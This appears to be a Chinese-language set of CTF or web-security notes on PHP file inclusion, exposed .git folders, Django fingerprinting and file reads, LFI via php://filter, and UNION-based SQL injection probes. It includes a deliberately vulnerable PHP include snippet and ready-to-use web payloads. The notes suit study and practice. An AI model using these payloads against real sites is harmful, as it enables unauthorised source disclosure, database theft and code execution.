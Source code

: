 文件包含会执行include的php文件，如果php文件里面同时输出你的输入，以及对某个文件进行包含，那么可以利用这点执行php代码，比如：

```php
<?php
echo $_GET['hello'];
$page = $_GET['page'];
include($page);
>
```

如果传入的page是页面本身，且同时在hello中携带代码，那么就会执行这个代码。

# .git漏洞

查看网页目录下是否有.git文件夹，若有则可以使用GitHack工具对网站进行扫描，找到需要的文件。

# PHP include路径

PHP中调用include函数，若参数中包含一个路径，则会自动忽略第一个斜杠之前的字符串，例如在Linux下：
```php
include "aaa.php?../../../../bbb.php"
```
则只会包含`../../../bbb.php`

# 判断服务器是否使用了Django

如果有机会通过GET或POST传输一个参数，则可以传输%80（一个大于等于128的十六进制数），则服务端会报错，错误信息中包含Django Version等信息。

对于使用Django的服务，可以尝试使用@符号加上文件路径来利用文件读取的漏洞，来查看数据库内容：

```
?param=@/opt/api/api/settings.py  // 获取数据库名database_name
?param=@/opt/api/database_name.sqlite3 // 获取数据库
```

# LFI漏洞判断

URL中path、dir、file、pag、page、archive、p、eng、语言文件等相关关键字眼的时候,可能存在文件包含漏洞，可以通过php的filter协议来读取php源码的base64编码形式。

```
/index.php?page=php://filter/read=convert.base64-encode/resource=index.php
```

# Sql注入的尝试

以正常查询为`localhost:8888/index.php?id=1`的环境为例，如果正常输入后有回显（比如查询id=1时，会返回用户信息），可以传入一个不会返回结果的参数（比如查询id为-1的用户，或随便输入的账号密码之类的），并尝试各种格式：
- id=-1 union select 1, 2 --+
- id=-1' union select 1, 2 --+
- id=-1" union select 1, 2 --+
- id=-1') union select 1, 2 --+
- id=-1") union select 1,2 --+
